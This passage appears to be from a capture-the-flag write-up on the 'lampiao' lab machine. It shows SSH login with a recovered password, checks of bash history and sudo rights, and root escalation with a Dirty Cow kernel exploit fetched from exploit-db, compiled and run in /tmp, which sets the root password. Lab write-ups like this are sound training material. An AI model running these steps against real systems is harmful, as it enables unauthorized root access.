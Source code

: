 Great, we have it! Unfortunately, even this part took a lot of time as the password is not for Drupal account, but for `ssh` and finding that was pure luck. 

{% highlight text %}
root@kali:~# ssh tiago@192.168.1.112
The authenticity of host '192.168.1.112 (192.168.1.112)' can't be established.
ECDSA key fingerprint is SHA256:64C0fMfgIRp/7K8EpiEiirq/SrPByxrzXzn7bLIqxbU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.112' (ECDSA) to the list of known hosts.
tiago@192.168.1.112's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Aug  7 11:47:42 BRT 2018

  System load:  0.0               Processes:           167
  Usage of /:   7.6% of 19.07GB   Users logged in:     0
  Memory usage: 27%               IP address for eth0: 192.168.1.112
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Tue Aug  7 11:47:42 2018 from 192.168.1.114

tiago@lampiao:~$ cat .bash_history
su www-data
exit
su root

tiago@lampiao:~$ sudo -l
[sudo] password for tiago: 
Sorry, user tiago may not run sudo on lampiao.
{% endhighlight %}

Part for the privilage escalation was quite brutal, as none of the methods did not find anyhting useful, as I do not like using kernel exploits. They are always a last attack, but that was a case in this machine, using version of `Dirty Cow` from [here](https://www.exploit-db.com/raw/40847/).

{% highlight text %}
tiago@lampiao:/tmp$ touch exploit.c
tiago@lampiao:/tmp$ vi exploit.c 
tiago@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o exploit exploit.c -lutil
tiago@lampiao:/tmp$ ./exploit 
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
{% endhighlight %}

Now we can log in to `root` and find the flag. 

{% highlight text %}
root@kali:~# ssh root@192.168.1.112
root@192.168.1.112's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Aug  7 12:27:04 BRT 2018

  System load:  0.77              Processes:           199
  Usage of /:   7.6% of 19.07GB   Users logged in:     1
  Memory usage: 19%               IP address for eth0: 192.168.1.112
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Fri Apr 20 14:46:57 2018 from 192.168.108.1